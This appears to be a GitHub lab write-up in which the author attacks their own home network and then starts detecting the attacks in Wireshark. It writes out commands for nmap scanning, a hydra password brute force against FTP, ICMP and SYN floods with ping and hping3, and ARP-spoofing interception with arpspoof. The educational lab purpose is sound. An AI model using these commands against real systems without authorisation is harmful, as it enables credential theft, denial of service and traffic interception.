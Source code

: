 **DISCLAIMER:** This project is for ***educational purposes only***. All attacks were performed in a controlled lab environment on devices I own. Never use these techniques on unauthorized networks or systems.
<br><br><br>

**Lab Setup:**
<br><br>
Attack OS: Parrot Security 6.4

Target WLAN: 192.168.1.0/24

Attacker IP: 192.168.1.16

Gateway IP: 192.168.1.1

Tools Used: Nmap, Hydra, Ping, Hping3, Arpspoof, TCPDump, Wireshark
<br><br><br>

**Traffic Capture:**
<br><br>
Using TCPDump on the attack host to capture all traffic on my WLAN interface.

*tcpdump -i wlp0s20f3*

![image](https://github.com/user-attachments/assets/4be930a3-8b82-422f-8da5-b41fe11b4b53)
<br><br><br>

**Attacks:**
<br><br>

Here begins the fun part. First I will begin with **ping sweep** using nmap to find active hosts in the subnet.

*nmap -sn 192.168.1.0/24*

![image](https://github.com/user-attachments/assets/d3f2c3de-52e1-4f4f-9447-5c03f547b072)

Now a *TCP syn scan* and *UDP scan* respectively with OS detection on the identified hosts with nmap.

*nmap -sS -O 192.168.1.17*
 
![image](https://github.com/user-attachments/assets/e725e899-692a-465f-98a0-9fd0b5edfd77)

*nmap -sU -O 192.168.1.3*
 
![image](https://github.com/user-attachments/assets/54012349-b8c7-4a3c-9184-d894d3a39f20)
<br><br><br>
Now lets move to *brute force* attack. Using hydra to attack open ftp port 2221 in one of the hosts.

*hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.9:2221*

![image](https://github.com/user-attachments/assets/dd7b0a26-0cc4-4653-9201-605c03cf133c)
<br><br>

Time for some DOS. *ICMP Flood* attack using linux's ping utility.

*ping -f 192.168.1.9*

![image](https://github.com/user-attachments/assets/5cc06116-6093-412a-bcae-08af3eb6f5aa)
<br><br>

Another DOS, this time *TCP syn Flood* using hping3.

*hping3 -S --flood -p 2221 192.168.1.9*

![image](https://github.com/user-attachments/assets/dc27073b-3e2b-495c-a8e0-d94c0e7ca660)
<br><br>

The final attack: *Man in the Middle Attack with ARP Spoofing* to intercept traffic between a host and the gateway.

*arpspoof -i wlp0s20f3 -t 192.168.1.9 192.168.1.1*

![image](https://github.com/user-attachments/assets/0d059ee7-09e7-4e7a-9f81-d83469ca2042)

*arpspoof -i wlp0s20f3 -t 192.168.1.1 192.168.1.9*

![image](https://github.com/user-attachments/assets/f75e9d47-39d5-42dc-b2bd-16edf78ea902)
<br><br><br>

**Analysing Captured Traffic with Wireshark:**
<br><br>

Opening the .pcapng file in Wireshark.

![image](https://github.com/user-attachments/assets/0092e8a9-e2ce-448d-b08b-f336d12f6d46)
<br><br>
Statistics > Capture file properties:

![image](https://github.com/user-attachments/assets/c14c337d-2f5e-4a44-a733-5d099bda5419)
<br><br>
Statistics > Endpoints:

![image](https://github.com/user-attachments/assets/3e505fb3-bab0-489f-a360-d5419f5233c2)
<br><br>
Statistics > Conversations:

![image](https://github.com/user-attachments/assets/092ba8fb-7ebe-412d-b4a0-2f5b6e6a1999)
<br><br>

Now we will use wireshark filters to detect the attacks conducted.
<br><br>

To detect ping sweep, using filter *arp* as nmap by default uses ARP requests on a LAN for ping scan.

![image](https://github.com/user-attachments/assets/b9290113-14fc-4207-8fb7-b98627f59a6a)

ARP broadcast in the subnet asking for every host's MAC address confirms ping sweep.














